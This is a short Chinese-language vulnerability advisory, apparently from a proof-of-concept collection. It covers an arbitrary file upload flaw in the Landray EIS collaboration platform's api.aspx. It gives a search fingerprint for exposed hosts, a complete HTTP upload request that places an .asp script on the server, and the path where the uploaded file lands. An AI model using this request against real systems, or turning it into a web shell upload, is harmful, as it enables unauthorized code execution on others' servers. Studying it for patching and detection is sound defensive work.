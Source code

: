 # 蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞

## 漏洞描述

蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>蓝凌EIS 智慧协同平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="953405444"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1676088789779-b0162f24-5a7a-4e83-b38c-61f8803a2244.png)

验证POC

```php
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Content-Length: 219
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html

<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--
```

![img](../../../.vuepress/public/img/1698146944052-212e870a-a547-4d03-8850-29efe15fd746.png)

```php
/files/editor_img/xxx/xxx.asp
```